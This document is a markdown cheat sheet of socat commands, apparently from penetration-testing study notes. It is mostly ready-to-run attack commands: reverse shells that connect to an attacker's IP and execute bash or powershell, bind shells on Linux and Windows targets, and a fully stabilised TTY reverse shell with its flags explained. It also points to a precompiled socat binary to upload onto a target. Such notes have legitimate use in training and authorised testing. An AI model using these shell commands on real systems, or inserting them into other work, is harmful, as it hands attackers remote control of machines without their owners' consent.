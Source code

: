 ## Socat
- Reverse Shells
    - Basic:
        ```bash
        $ socat TCP-L:<port> -

        # above command is equivalen to:
        # $ nc -lvnp <port>
        ```
    - Windows machine to connect back:
        ```bash
        socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
        ```
    - Linux machine to connect back:
        ```bash
        $ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
        ```

- Bind Shells
    - Linux target:
    ```bash
    $ socat TCP-L:<PORT> EXEC:"bash -li"
    ```
    - Windows target:
    ```bash
    $ socat TCP-L:<PORT> EXEC:powershell.exe,pipes
    ```
    - Connect to target listener:
    ```bash
    $ socat TCP:<TARGET-IP>:<TARGET-PORT> -
    ```

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is **Linux**, but is significantly more stable.
```bash
$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.
- Special command:
    ```bash
    $ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

    # pty, allocates a pseudoterminal on the target -- part of the stabilisation process
    # stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
    # sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
    # setsid, creates the process in a new session